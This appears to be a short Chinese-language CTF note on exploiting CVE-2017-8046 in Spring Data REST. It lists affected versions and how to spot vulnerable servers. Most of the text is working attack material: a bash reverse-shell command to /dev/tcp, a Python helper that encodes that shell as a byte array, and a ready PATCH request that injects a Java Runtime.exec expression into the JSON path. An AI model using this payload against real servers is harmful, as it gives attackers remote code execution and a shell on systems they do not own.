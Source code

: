 CVE-2017-8046
Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。


Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version ≤ 2.0.0M4
Spring Data release trains < Kay-RC3

特征spring，有/api目录
响应如：
```
{
"_links": {
"people": {
"href": "https://xx/api/people{?page,size,sort}",
"templated": true
}
```


```
bash -i >& /dev/tcp/ip/port 0>&1
base64一下：

# 自己改弹shell的命令
payload = b'bash -c {echo,YmFzaCAtaSAmPi9kZXYvdGNwL3gueC54LngvMjMzMyA8JjE=}|{base64,-d}|{bash,-i}'

# 将payload转换为字节码字符串
bytecode = ','.join(str(i) for i in list(payload))

# 打印字节码字符串
print(bytecode)
```
```
PATCH /api/people/1 HTTP/1.1
Host: 81f61eb8-42bb-4423-824c-88573a92ebaa.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 440

[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{上面生成的一串数字}))/lastName",
        "value": "vulhub"
    }
]
```